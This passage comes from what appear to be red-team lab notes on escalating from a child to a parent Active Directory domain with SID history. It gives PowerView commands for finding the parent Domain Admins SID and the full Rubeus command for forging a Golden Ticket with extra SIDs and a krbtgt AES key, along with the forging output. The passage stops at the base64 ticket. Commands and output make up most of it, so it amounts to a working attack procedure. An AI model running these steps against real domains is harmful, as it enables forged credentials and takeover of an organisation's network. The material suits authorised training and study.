 To preserve access to resources within the "old" domain, the user's previous SID would be added to the SID history of their new account.

When creating such a ticket, the SID of a privileged group (EAs, DAs, etc) in the parent domain can be added that will grant access to all resources in the parent.

This can ultimately be achieved using either a Golden or Diamond Ticket.

### Golden Ticket

The process is the same as creating Golden Tickets described earlier.

**The only additional information required now is the SID of a target group in the parent domain:**

```
beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid

objectsid                                   
---------                                   
S-1-5-21-2594061375-675613155-814674916-512

beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name

Name              
----              
dc-1.cyberbotic.io
```

**After obtaining the SID of the target group in the parent domain, we can create the golden ticket with Rubeus:**

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /sids:S-1-5-21-2594061375-675613155-814674916-512 /nowrap

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : DEV.CYBERBOTIC.IO (DEV)
[*] SID            : S-1-5-21-569305411-121244042-2357301523
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-2594061375-675613155-814674916-512
[*] ServiceKey     : 51D7F328ADE26E9F785FD7EEE191265EBC87C01A4790A7F38FB52E06563D4E7E
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 51D7F328ADE26E9F785FD7EEE191265EBC87C01A4790A7F38FB52E06563D4E7E
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : dev.cyberbotic.io

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@dev.cyberbotic.io'

[*] AuthTime       : 9/12/2022 10:44:21 AM
[*] StartTime      : 9/12/2022 10:44:21 AM
[*] EndTime        : 9/12/2022 8:44:21 PM
[*] RenewTill      : 9/19/2022 10:44:21 AM

[*] base64(ticket.kirbi):

```